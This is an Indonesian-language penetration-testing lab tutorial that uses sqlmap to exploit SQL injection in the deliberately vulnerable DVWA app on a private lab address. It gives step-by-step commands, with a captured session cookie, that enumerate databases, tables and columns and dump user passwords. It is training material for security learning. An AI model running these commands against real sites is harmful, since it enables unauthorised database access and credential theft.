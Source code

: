 # Lesson 7: Automate SQL Injection with SqlMap

1. Didalam website DVWA, pilih tab SQL Injection.

2. Nyalakan add-ons Temper Data di browser.

3. Masukkan 1 pada form User ID, kemudian submit. Sebuah pop-up akan muncul, hilangkan centang untuk continuous temper. Kemudian klik submit.
![Gambar](image/34-tempering.PNG)

4. Pilih data kedua, kemudian salin bagian referer dan cookienya.
![Gambar](image/35-referer.png)

5. Paste ke notepad, seharusnya semuanya akan terlihat seperti dibawah ini. Didalamnya akan ada PHPSESSID yang akan kita gunakan dalam perintah berikutnya.
![Gambar](image/36-phpsessid.PNG)

6. Pindah ke folder dimana sqlmap berada (/pentest/database/sqlmap). Jalankan sqlmap dnegan perintah berikut ini.
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -b --current-db --current-user
```
![Gambar](image/37-a-fail-one.PNG)

7. Mendapatkan daftar dari semua database yang ada:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" --dbs
```
![Gambar](image/38-listalldatabase.PNG)

8. Mendapatkan semua tabel dan konten di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa --tables
```
![Gambar](image/39-dvwa-table.PNG)

9. Mendapatkan semua column yang ada di dalam tabel users di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users --columns
```
![Gambar](image/40-dvwa-users.PNG)

10. Mendapatkan semua user dan passwordnya dari database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users -C user,password --dump
```
pilih "y" atau Y untuk semua pilihan dan kosongkan dictionary lokasi.
![Gambar](image/41-voila.PNG)

